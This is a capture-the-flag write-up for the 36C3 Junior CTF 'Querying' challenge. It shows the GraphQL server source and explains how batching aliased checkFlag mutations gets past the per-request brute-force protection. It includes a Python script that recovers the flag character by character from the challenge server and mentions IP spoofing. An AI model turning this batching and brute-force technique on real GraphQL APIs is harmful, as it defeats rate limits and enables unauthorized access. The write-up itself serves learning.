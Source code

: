 ```yaml
---
title: 36C3 Querying
author: Marius Kimmina
date: 2020-01-01 14:10:00 +0800
categories: [CTF, 36C3]
tags: [GraphQL]
published: true
---
```



### 0x0. Introduction
This Challenge was part of the *36C3 Junior CTF*. It was a "Web" challenge with a difficulty rating of "Medium", you were given an URL for the live challenge server and also a copy of the server (with a fake flag obv) as a Docker Container to run locally to test your exploits. The local copy was needed because the real server would give you an timeout after every request to make bruteforcing the solution harder. Sadly I was not able to solve this challenge before the timeup to get some points for it but atleast I was able to complete it shortly afterwards for my own sake.

### 0x1. Challenge Description
```
In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/
```
There was also a file for the local copy attached which looked like this:

.  
├── dist.tar.gz  
├── docker-compose.yml  
├── Dockerfile  
├── package.json  
├── package-lock.json  
├── prisma  
│   ├── datamodel.prisma  
│   ├── prisma.yml  
│   └── seed.graphql  
├── src  
│   ├── generated  
│   │   └── prisma-client  
│   │       ├── index.d.ts  
│   │       ├── index.js  
│   │       └── prisma-schema.js  
│   ├── index.js  
│   └── schema.graphql  
└── yarn.lock  

### 0x2. Looking at the source Code

The most important file for this challenge was the index.js which contained the following code:

```js
const { GraphQLServer } = require('graphql-yoga')
const LRU = require('lru-cache')

const { prisma } = require('./generated/prisma-client')

const MAX_WAIT = 10 * 1000 // 10 seconds

const FLAG = "junior-THIS_IS_A_DUMMY"
const FLAG_REGEX = /$junior-[a-zA-Z0-9_]24^/.compile()

const requestsPerClient = new LRU({
  max: 16 * 1024,
  maxAge: 1000 * 60
})

function bruteforceProtection(context) {
  const ip = context.request.ip
  if (context.request.headers["admin"]) {
    console.log("ip", ip)
    let requests = requestsPerClient.get(ip) || 0
    const waitTime = 15 * requests * 1000
    requestsPerClient.set(ip, requests + 1)
    return new Promise(
      resolve => setTimeout(
        () => (console.log("finished", ip, waitTime) || resolve()), waitTime
      )
    )
  }
  return Promise.resolve()
}

const resolvers = {
  Query: {
    feed: (parent, args, context) => {
      return context.prisma.posts({ where: { published: true } })
    },
    drafts: (parent, args, context) => {
      return context.prisma.posts({ where: { published: false } })
    },
    post: (parent, { id }, context) => {
      return context.prisma.post({ id })
    },
  },
  Mutation: {
    checkFlag(parent, {flag}, context) {
      if (!context.request.headers["admin"]) throw "this got changed!"
      if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
      let i = 0
      while (flag[i] === FLAG[i]) i++
      return i
    },
    createDraft(parent, { title, content }, context) {
      return context.prisma.createPost({
        title,
        content,
      })
    },
    deletePost(parent, { id }, context) {
      return context.prisma.deletePost({ id })
    },
    publish(parent, { id }, context) {
      return context.prisma.updatePost({
        where: { id },
        data: { published: true },
      })
    },
  },
}

const server = new GraphQLServer({
  typeDefs: './src/schema.graphql',
  resolvers,
  context: async (request, response, fragmentReplacements) => ({
    ...request,
    prisma,
    console: await bruteforceProtection(request)
  }),
})

server.start(() => console.log('Server is running on http://localhost:4000'))
```

From the "FLAG_REGEX" we know that the Flag consist of "Junior-" and 24 Characters containing lowercase, uppercase, digits and underscores.
We can use the "Check Flag" function which will tell us how many letters of our input match the actual Flag. So we could give the Webserver an Input like this:

```js
mutation { 
    checkFlag(flag: "j")
}
```

The Server would then return "1".  
This is somewhat screaming for a bruteforce, you can guess one letter at a time and as soon as the integer responds from the server increases you go for the next letter. But there is "BruteforceProtection" build into this which will give us an timeout after every request based on our IP. You could theoretically work around this protection by spoofing your IP after every request, which was some people acctaully did and I won't blame them, whatever works works. But there is another more interesting solution which I want to focus on here.

### 0x3. Solution

The catch is, in graphql you can provide multiple mutations at once. So it is possible to ask the Server for every possible character at a position in a single request. Such a request would look like this:

```js
mutation {
  name1: checkFlag(flag: "junior-A"),
  name2: checkFlag(flag: "junior-B"),
  ...
}
```


Since we need to get 24 characters with this approach we need 24 requests to the server to get the full Flag, which still took a bit but returned the flag in a somewhat reasonable amount of time. 
I came up with the following python Script to get the Flag:

```py
import requests
import operator

url = "http://199.247.4.207:4000/"
header = {
    "content-type": "application/json",
    "admin": "true"
}

base_check = 'checkFlag(flag: "junior-'
name = "name"
possible = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '_'
]

start_query = "mutation {\n"
end_query = "}"
number = 1
i = 0
while (i < 24):
    print("getting charakter " +  str(i))
    for letter in possible:
        start_query = start_query + name + str(number) + ":" + base_check + letter + '")' + "," + "\n"
        number = int(number) + 1
    i = i + 1
    number = 1
    start_query = start_query + end_query
    r = requests.post(url, json={"query": start_query}, headers=header)
    response = r.text
    data = r.json()["data"]
    correct = max(data.items(), key=operator.itemgetter(1))[0]
    right_character = correct[4:]
    base_check += possible[int(right_character)-1]
    start_query = "mutation {\n"
    print(base_check)
```

Flag: junior-Batching_Qu3r1e5_is_FUN1
